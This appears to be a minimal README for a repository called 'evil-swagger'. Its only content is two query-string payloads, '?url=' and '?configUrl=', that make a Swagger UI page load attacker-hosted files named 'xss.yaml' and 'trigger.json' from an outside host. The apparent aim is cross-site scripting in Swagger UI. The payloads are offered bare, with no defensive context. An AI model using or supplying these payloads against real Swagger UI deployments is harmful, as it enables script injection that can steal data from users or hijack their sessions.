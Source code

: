# evil-swagger
?url=https://raw.githubusercontent.com/vida003/evil-swagger/main/xss.yaml

OU

?configUrl=https://raw.githubusercontent.com/vida003/evil-swagger/main/trigger.json
